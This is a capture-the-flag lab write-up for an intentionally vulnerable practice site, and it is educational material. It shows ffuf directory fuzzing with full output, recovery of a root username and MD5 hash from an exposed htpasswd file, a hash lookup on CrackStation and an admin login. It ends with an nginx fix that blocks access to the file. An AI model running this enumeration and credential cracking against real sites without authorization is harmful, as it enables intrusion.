 # Credentials Exposure via htpasswd

## 📖 Vulnerability Explanation
Credential exposure is a misconfiguration vulnerability that happens when private authentication information is exposed to non authorized users.

## ⚙️ Exploitation Process

- Enumerate the web directories via web fuzzing:
```
ffuf -u 'http://localhost:9090/FUZZ' -w /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt -fs 975

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:9090/FUZZ
 :: Wordlist         : FUZZ: /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 975
________________________________________________

admin                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 4ms]
audio                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 2ms]
css                     [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
errors                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
favicon.ico             [Status: 200, Size: 1406, Words: 2, Lines: 2, Duration: 0ms]
fonts                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 5ms]
images                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
includes                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 1ms]
js                      [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 4, Duration: 0ms]
whatever                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 12ms]
:: Progress: [20478/20478] :: Job [1/1] :: 12500 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

---

We find a htpasswd file present in the ```whatever/``` directory. After downloading the file, we can see a username and hash combination.
```

root:437394baff5aa33daa618be47b75cb49
```

---
- Check the hash value:
![](./CrackStation.png)
---

Use the credentials obtained to login on the ```admin/``` directory and get the flag.

## 🧰 Additional Resources
In order to enumerate web directories we used ```ffuf```, a compiled web fuzzer written in go.

- https://github.com/ffuf/ffuf

The wordlist we used part of the SecLists project, which is a recognised repository with multiple wordlists for various purposes.

- https://github.com/danielmiessler/SecLists.git

We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
The file ```htpasswd``` or any file containing credentials should never be exposed to unauthorized users. Configuring nginx to restrict access to this file is recommended.

## ☝️🤓 Advanced explanation
A properly configured nginx config file could look like this:
```
server {
    listen 80;
    server_name bornToSec.com;

    root /var/www/html;

    location /admin/ {
        auth_basic           "Restricted Area";
        auth_basic_user_file /etc/nginx/.htpasswd;
    }

    location ~ /\.htpasswd {
        deny all;
    }

    location / {
        index index.php;
    }
}
```